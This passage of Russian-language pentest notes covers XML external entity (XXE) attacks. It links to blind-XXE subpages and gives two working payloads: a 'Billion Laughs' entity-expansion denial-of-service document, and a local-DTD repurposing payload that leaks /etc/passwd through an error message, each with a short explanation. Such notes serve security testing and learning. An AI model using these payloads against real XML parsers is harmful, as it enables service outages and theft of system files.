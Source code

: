 
## 3.2. При blind xxe

#### [[Работа с XXE использующая DTD формат#При blind xxe|3.2.1. Проверка реакции на DTD-инъекции]]

#### [[Работа с XXE использующая XSD формат|3.1.2. Проверка реакции на XSD-инъекции]]

## 3.3. Экзотические

- Уязвимость может быть возможна даже при отключенных внешних сущностях, если парсер XML обрабатывает DTD (Document Type Definition) и разрешает использование внутренних сущностей, параметрических сущностей или других функций DTD
#### 1. Атака "Billion Laughs" (DoS через расширение сущностей)
Эта атака использует вложенные внутренние сущности для создания экспоненциального расширения данных, что приводит к отказу в обслуживании (DoS).
```
<?xml version="1.0"?>
<!DOCTYPE example [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<example>&lol3;</example>
```
Результат: Парсер пытается обработать &lol3;, что приводит к экспоненциальному росту данных (миллиарды символов "lol"), потребляя ресурсы сервера.

#### 2. Использование параметрических сущностей и локальных DTD
Если парсер обрабатывает DTD и разрешает параметрические сущности, можно использовать локальные DTD-файлы для обхода ограничений. Например:
```
<!DOCTYPE message [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
  '>
  %local_dtd;
]>
```
Как это работает:
1. Загружается локальный DTD-файл (`local_dtd`).
2. Переопределяется сущность ISOamso из этого файла.
3. Внедряется код для чтения файла /etc/passwd через создание ошибки (попытка загрузить несуществующий путь, содержащий данные из файла).
